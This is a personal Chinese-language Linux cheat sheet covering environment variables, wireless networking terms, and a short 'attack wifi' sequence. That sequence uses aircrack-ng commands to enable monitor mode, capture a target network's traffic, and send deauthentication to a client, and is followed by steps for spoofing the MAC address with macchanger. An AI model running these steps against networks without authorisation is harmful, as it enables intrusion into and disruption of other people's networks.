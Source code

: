 ### 环境变量

`export` 命令显示当前系统定义的所有环境变量 使用export定义的时候可加双引号也可不加。

`echo $PATH` 命令输出当前的PATH环境变量的值，其中PATH变量定义了运行命令的查找路径，以冒号:分割不同的路径

ex: 

`export PATH=/home/uusama/mysql/bin:$PATH` 

`export PATH=$PATH:/home/uusama/mysql/bin` 

网络管理器运行
`systemctl enable --now NetworkManager` 

### attack wifi

基本上都要加sudo权限

0. `airmon-ng` 看local的网卡 一般就叫wlan0
1. `sudo airmon-ng start wlan0` 开启监听 -- (mac80211 monitor mode vif enabled for [phy4]wlan0 on [phy4]wlan0mon) 就表示监听成功 monitor interface 监听接口就是 wlan0mon
2. `sudo airodump-ng wlan0mon` 
   列出当前所在区域的所有无线网
3. `sudo airodump-ng --bssid[bssid] -c[ch] -w[path] wlan0mon` 
    -c 信道
    -w 路径
5. `aireplay-ng -a[bssid] -c[atkmacid] wlan0mon` 
    -a 目标BSSID
    -c 手机mac地址

__SSID(Service Set Identifier)__ 

无线网名称 也就是服务集标识，其实就是一个集合 也就是下面的ESS 别名也叫ESSID

__BSS__ 

基本服务单元 ，可以理解成一个wifi就是一个基本单元集， WiFi_5G+ 又是另一个服务单元集。一个单元范围有限一般是100米，如果要多个就要拓展 于是就出现了ESS

__ESS(Extend Service Set)__ 

拓展服务集，其实就是多个使用相同SSID的BSS组成，但是这中间隐含2个条件：

    1、这些BSS是要比邻安置。

    2、这些BSS通过各种分布系统互联，有线无线都可以，不过一般都是以太网。
    
ess 由 多个bss组成

[origin](https://forum.huawei.com/enterprise/zh/thread-318127-1-1.html) 
查看网卡Mac地址
`cat /sys/class/net/[网卡名称]/address` 

### 虚拟MAC地址
[origin](https://www.geeksforgeeks.org/how-to-change-the-mac-address-in-kali-linux-using-macchanger/) 
1. `sudo ifconfig [网卡名称] down`
2. `sudo macchanger -r [网卡名称]` --随机生成 -m 指定生成
3. `sudo ifconfig [网卡名称] up`
4. `macchanger -s [网卡名称]`
